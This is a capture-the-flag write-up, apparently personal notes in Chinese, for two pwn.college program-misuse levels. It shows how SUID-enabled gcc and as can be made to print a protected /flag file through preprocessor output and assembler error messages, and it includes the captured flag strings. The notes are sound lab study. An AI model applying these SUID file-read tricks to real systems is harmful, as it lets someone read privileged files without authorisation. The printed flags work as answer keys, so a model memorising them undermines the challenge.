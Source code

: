 ## level48 Just straight up wasn't designed to let you read files!
```
hacker@program-misuse-level-48:~$ sh file.sh
Welcome to ./babysuid_level48!

This challenge is part of a series of programs that
just straight up weren't designed to let you read files.

I just set the SUID bit on /usr/bin/gcc.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level48) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/gcc!
```
有点儿意思，gcc都出来了
```
hacker@program-misuse-level-48:~$ gcc -x c -E /flag
# 1 "/flag"
# 1 "<built-in>"
# 1 "<command-line>"
# 31 "<command-line>"
# 1 "/usr/include/stdc-predef.h" 1 3 4
# 32 "<command-line>" 2
# 1 "/flag"
pwn.college{UgtHTJRU8raItcJF89PS-hM7Rh9.0FM5EDL2QjMyMzW}
hacker@program-misuse-level-48:~$
```
它这个必须要指定语言，不然不能运行

///@TODO:
这个一定要去看官方解答，直接在一个程序里面include '/flag'，然后靠报错得到flag，非常有启发
## level49 Just straight up wasn't designed to let you read files!
```
hacker@program-misuse-level-49:~$ sh file.sh
Welcome to ./babysuid_level49!

This challenge is part of a series of programs that
just straight up weren't designed to let you read files.

I just set the SUID bit on /usr/bin/as.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level49) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/as!
```
`as`:汇编语言的编译器
```
hacker@program-misuse-level-49:~$ as -g /flag
/flag: Assembler messages:
/flag:1: Error: no such instruction: `pwn.college{MqHCh7Oprd3rEP2f1i_RgAl8QZR.0VM5EDL2QjMyMzW}'
hacker@program-misuse-level-49:~$
```
通过调试输出
